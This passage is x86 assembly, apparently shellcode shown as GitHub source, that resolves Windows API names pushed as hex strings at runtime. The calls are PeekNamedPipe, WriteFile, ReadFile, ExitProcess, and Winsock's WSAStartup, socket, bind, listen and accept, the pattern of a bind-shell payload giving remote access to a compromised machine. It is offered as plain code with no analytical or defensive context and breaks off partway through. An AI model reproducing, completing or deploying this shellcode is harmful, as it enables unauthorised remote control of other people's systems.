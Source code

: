 ```
push esp
push edi
call [ebp+76]
mov [ebp+12], eax; PeekNamedPipe 0x00000065 70695064 656d614e 6b656550
push dword ptr 0x00000065
push dword ptr 0x6c694665
push dword ptr 0x74697257
push esp
push edi
call [ebp+76]
mov [ebp+16], eax; WriteFile 0x00000065 0x6c694665 0x74697257
push dword ptr 0
push dword ptr 0x656c6946
push dword ptr 0x64616552 
push esp
push edi
call [ebp+76]
mov [ebp+20], eax; ReadFile 
push dword ptr 0x00737365
push dword ptr 0x636f7250 
push dword ptr 0x74697845
push esp
push edi
call [ebp+76]
mov [ebp+24], eax; ExitProcess 0x00737365 0x636f7250 0x74697845
push dword ptr 0x00003233
push dword ptr 0x5f327357
push esp
call [ebp+80] ;LoadLibrary(Ws2_32) 0x00003233 5f327357
mov edi, eax 
push dword ptr 0x00007075
push dword ptr 0x74726174
push dword ptr 0x53415357
push esp
push edi
call [ebp+76]
mov [ebp+28], eax; WSAStartup 0x00007075 0x74726174 0x53415357
push dword ptr 0x00007465
push dword ptr 0x6b636f73 
push esp
push edi
call [ebp+76]
mov [ebp+32], eax; socket 0x00007465 0x6b636f73
push dword ptr 0
push dword ptr 0x646e6962 
push esp
push edi
call [ebp+76]
mov [ebp+36], eax; bind 0x646e6962
push dword ptr 0x00006e65
push dword ptr 0x7473696c
push esp
push edi
call [ebp+76]
mov [ebp+40], eax; listen 0x00006e65 0x7473696c
push dword ptr 0x00007470
push dword ptr 0x65636361 
push esp
push edi
call [ebp+76]
mov [ebp+44], eax; accept 0x00007470 0x65636361
push 0
push dword ptr 0x646e6573 
```